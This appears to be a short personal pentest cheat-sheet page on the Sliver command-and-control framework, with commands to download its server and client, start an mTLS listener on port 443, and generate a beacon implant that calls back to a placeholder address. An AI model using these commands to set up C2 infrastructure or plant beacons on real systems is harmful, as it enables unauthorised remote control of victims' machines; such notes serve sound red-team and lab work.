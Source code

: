 ```yaml
---
title: sliver
tags:

- c2
---
```


## sliver

### Download the latest version

#### server

```sh
curl -L https://github.com/BishopFox/sliver/releases/latest/download/sliver-server_linux -s --output sliver
```

#### client

```sh
curl -L https://github.com/BishopFox/sliver/releases/latest/download/sliver-client_linux -s --output sliver
```

### MTLS

#### Listener

```sh
mtls -l 443 -L 0.0.0.0 -p
```

#### Payload

```sh
generate beacon --mtls <ip address>:<port>
```
